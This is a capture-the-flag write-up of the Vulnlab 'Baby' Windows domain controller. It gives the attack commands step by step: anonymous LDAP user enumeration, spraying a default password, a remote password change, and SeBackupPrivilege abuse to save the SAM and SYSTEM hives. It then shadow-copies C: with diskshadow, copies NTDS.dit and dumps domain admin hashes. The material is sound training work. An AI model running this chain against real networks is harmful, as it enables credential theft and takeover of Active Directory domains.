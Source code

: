 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Baby/logo.png
date: 2024-06-21 09:45:47 +07:00
modified: 2024-06-21 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: jkr
  link: https://app.hackthebox.com/users/77141
tags: [Nmap, SMB, LDAP, SeBackupPrivilege, Diskshadow, Secretsdump, Brute Force, Password Change, Shadow Copy, Robocopy, smbpasswd, VulnLab, Baby]

title: Baby - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Baby is an **easy** difficulty machine, Where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize SeBackupPrivilege to extract sensitive files and employ various tools to achieve privilege escalation and capture the root flag.


# Enumeration
The Nmap scan shows the following ports.

```bash
PORT      STATE SERVICE       VERSION         
53/tcp    open  domain        Simple DNS Plus 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-21 13:49:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC     
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?       
464/tcp   open  kpasswd5?           
3389/tcp  open  ms-wbt-server Microsoft Terminal Services  
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-06-20T13:28:17       
|_Not valid after:  2024-12-20T13:28:17       
|_ssl-date: 2024-06-21T13:51:05+00:00; -2s from scanner time.             
| rdp-ntlm-info:  
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY       
|   NetBIOS_Computer_Name: BABYDC   
|   DNS_Domain_Name: baby.vl        
|   DNS_Computer_Name: BabyDC.baby.vl         
|   Product_Version: 10.0.20348     
|_  System_Time: 2024-06-21T13:50:25+00:00
```

Next, I check SMB shares with an anonymous login but no luck. I moved to ldap where I was able to list the users in the domain.

`netexec ldap 10.10.95.186 -u '' -p '' --user`

![](https://photos.squarezero.dev/file/abir-images/Baby/0.png)

After that, I checked the user's description and got the default passwords for new users.

`netexec ldap 10.10.95.186 -u '' -p '' --user -M get-desc-users`

![](https://photos.squarezero.dev/file/abir-images/Baby/1.png)

# Password_MUST_Change

I used the default password against Teresa and it didn't work. So I have collected all the users and bruteforce using the default password.

![](https://photos.squarezero.dev/file/abir-images/Baby/2.png)

As seen in the result when trying to login using the default password Caroline needs to change her password. I can change the password remotely using SMBPASSWD. And with the new password, I logged into the machine and got the user flag.

`smbpasswd -r 10.10.95.186 -U caroline.robinson`

![](https://photos.squarezero.dev/file/abir-images/Baby/3.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/4.png)

# SeBackupPrivilege

I checked the permissions and SeBackupPrivilege was enabled.

![](https://photos.squarezero.dev/file/abir-images/Baby/5.png)

With this permission, I copied SAM and SYSTEM files.

`reg.exe save hklm\sam C:\Users\Caroline.Robinson\Desktop\sam.save`
`reg.exe save hklm\system C:\Users\Caroline.Robinson\Desktop\system.save`

![](https://photos.squarezero.dev/file/abir-images/Baby/6.png)

After transferring the files to my machine I used Secrectsdump to get the administrator's password.

![](https://photos.squarezero.dev/file/abir-images/Baby/7.png)

But when I couldn't login using that administrator hash as it's for local admin.

![](https://photos.squarezero.dev/file/abir-images/Baby/8.png)

To get the root flag I need to get the administrator of DC. For that I need NTDS.dit alongside SAM and SYSTEM.
I used diskshadow.exe to create a Shadow copy of the C drive. At first, I created a script which has all the commands needed to create a backup using Diskshadow.

```
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

After that, I ran the script with Diskshadow which created the shadow drive of C. 

![](https://photos.squarezero.dev/file/abir-images/Baby/9.png)

Now using Robocopy I can transfer NTDS.dit.
`robocopy /B z:\Windows\NTDS .\ntds ntds.dit`

![](https://photos.squarezero.dev/file/abir-images/Baby/10.png)

Now I used Secrectsdump again to dump the hash of Domain Administrator and got root.txt

![](https://photos.squarezero.dev/file/abir-images/Baby/11.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/12.png)

# Bonus

### LDAP Enumeration Alternative
Using Ldapsearch for enumeration
`ldapsearch -H ldap://10.10.92.79 -D '' -w '' -b "DC=baby,DC=vl"`

### SeBackupPrivillege Alternative
If the Sebackupprivillege was disabled this can be used to read the flag without needing to login to administrator.

[SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```

![](https://photos.squarezero.dev/file/abir-images/Baby/13.png)







